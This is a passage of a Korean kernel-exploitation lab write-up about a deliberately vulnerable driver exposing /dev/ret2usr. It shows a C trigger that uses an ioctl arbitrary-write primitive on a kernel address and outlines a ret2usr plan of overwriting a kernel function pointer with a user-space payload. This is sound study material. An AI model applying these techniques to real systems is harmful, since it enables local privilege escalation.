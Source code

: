 ```c
}

module_init(load);
module_exit(unload);

MODULE_LICENSE("GPL");
```

`_init_load()` 함수를 통해 `/dev/ret2usr` 디바이스를 등록하며, `device_ioctl()` 함수 선언을 통해 `ioctl()`[^ioctl]호출시 `arbitrary_write()` 함수와 `partial_write()`함수를 사용할 수 있다.

---

# Arbitary Address Write Exploit
아래와 같은 AAW trigger template이 제공되어 있다.

**trigger1.c**
```c
/* arbitrary write primitive (write-what-where) trigger */
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include "drv.h"

int main() {
	int fd;
	struct drv_req req;

	fd = open(DEVICE_PATH, O_RDONLY);

	if (fd == -1) {
		perror("open");
		return -1;
	}

	/* set the address to overwrite and the new value */
	req.address = 0xffffffff81000000;
	req.value = 0xdeadbeef;

	ioctl(fd, IOCTL_FULL_WRITE, &req);
}
```

`ioctl` 호출시 `cmd` 필드가 `IOCTL_FULL_WRITE`이라면, 임의 주소 쓰기(`Arbitary Address Write`, `AAW`)가 가능하다.

우선 Exploit 코드를 작성하기 전, 메모리의 어느 공간(`Where`)에, 어떤 값(`What`)을 쓸 것인지 생각해야 한다.
`IOCTL_FULL_WRITE` 옵션을 통해 커널 영역의 함수 포인터를 유저 영역에서 우리가 선언한 함수의 주소로 바꿔치기하여 `ret2usr` 공격을 성사시킬 수 있을 것이기 때문에 `What`은 우리가 작성한 `Exploit Payload` 함수의 주소가 된다.

그렇다면 `Where`, 어디에 페이로드 함수의 주소를 써야 할까?
이번에는 [Blazeme](https://nonetype.github.io/2019-09-16/BlazeCTF2018-blazeme-write-up) 문제를 풀다가 발견한 [방법](https://www.lazenca.net/pages/viewpage.action?pageId=25624658#id-04.Write-what-where(ArbitraryMemoryOverwrite)(feat.ret2usr)-ptmx)을 사용해 보려고 한다.


[^rings]: [PRIVILEGE LEVEL(RING 0, RING 3)] <https://elfmfl.tistory.com/2>
[^ioctl]: [ioctl 정리] <http://blog.naver.com/PostView.nhn?blogId=jyh3211&logNo=40131890810>
[^find]: [linux manpage] <http://man7.org/linux/man-pages/man1/find.1.html>
[^desc_ptr]: <https://github.com/torvalds/linux/blob/da05b5ea12c1e50b2988a63470d6b69434796f8b/arch/x86/kernel/idt.c#L171>
[^idt_table]: <https://github.com/torvalds/linux/blob/da05b5ea12c1e50b2988a63470d6b69434796f8b/arch/x86/include/asm/desc.h#L44>
[^gate_desc]: <https://github.com/torvalds/linux/blob/da05b5ea12c1e50b2988a63470d6b69434796f8b/arch/x86/include/asm/desc_defs.h#L88>
[^desc_struct]: <https://github.com/torvalds/linux/blob/da05b5ea12c1e50b2988a63470d6b69434796f8b/arch/x86/include/asm/desc_defs.h#L16>